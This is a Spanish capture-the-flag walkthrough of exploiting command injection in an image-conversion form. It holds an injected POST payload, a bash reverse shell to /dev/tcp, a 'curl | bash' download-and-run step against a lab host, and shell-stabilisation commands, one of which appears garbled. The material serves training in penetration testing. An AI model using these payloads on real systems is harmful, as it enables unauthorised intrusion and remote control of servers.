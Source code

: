*Command Injection* es un tipo de vulnerabilidad de seguridad en la que un **atacante** puede **ejecutar comandos arbitrarios** en el sistema operativo de un servidor web o aplicación. Esto sucede cuando **la aplicación no valida correctamente los datos de entrada** antes de utilizarlos en una operación del sistema.

Imaginemos que el servidor, con los datos que se tramitan por POST, está ejecutando un comando del tipo:

```bash
<commando> <dimension> <photo>.<filetype>
```

Podríamos intentar inyectar un *payload* del tipo *dimension=3000x2000; $(whoami)*. El **único** campo inyectable será *filetype* (En el primer punto del **Anexo** inspeccionaremos el **código vulnerable**).

En lugar de *;$(whoami)*, utilizaré *;\$(ping -c 1 10.10.14.58)* para comprobar si tengo conexión con la máquina. Por tanto, la información que se tramitará por POST será la siguiente:

```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;$(ping -c 1 10.10.14.58)&dimensions=3000x2000
```

Enviaremos la petición y deberíamos recibir dos trazas ICMP:

```bash
$> sudo tcpdump -n icmp -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
12:31:59.782634 IP 10.10.11.182 > 10.10.14.58: ICMP echo request, id 6, seq 1, length 64
12:31:59.782651 IP 10.10.14.58 > 10.10.11.182: ICMP echo reply, id 6, seq 1, length 64
```

Para enviarnos una *reverse shell*, en primer lugar, crearé un archivo *index.html* con el siguiente contenido:

```bash
bash -c "bash -i >& /dev/tcp/10.10.14.58/443 0>&1"
```

En segundo lugar, desplegaré un servidor *python* con el comando `python3 -m http.server 80` compartiendo este fichero.  Finalmente, procederé a modificar los datos enviados por *POST* para que el servidor víctima se descargue mi *index.html* y lo interprete con *bash*:

```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;$(curl 10.10.14.58 | bash)&dimensions=3000x2000
```

Previamente a enviar la petición, nos pondremos en escucha con *netcat* por el puerto que hayamos elegido. Deberíamos recibir una *shell*:

![imagen 5](Pasted image 20230206123703.png)


Deberíamos hacerle un **tratamiento** a la consola para hacerla más interactiva (ejecutar _Ctrl+C_ sin perder la consola, borrado de los comandos, etc.). Ingresaremos los siguientes comandos:

```bash
import /dev/null -c bash
*Ctrl+Z*
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
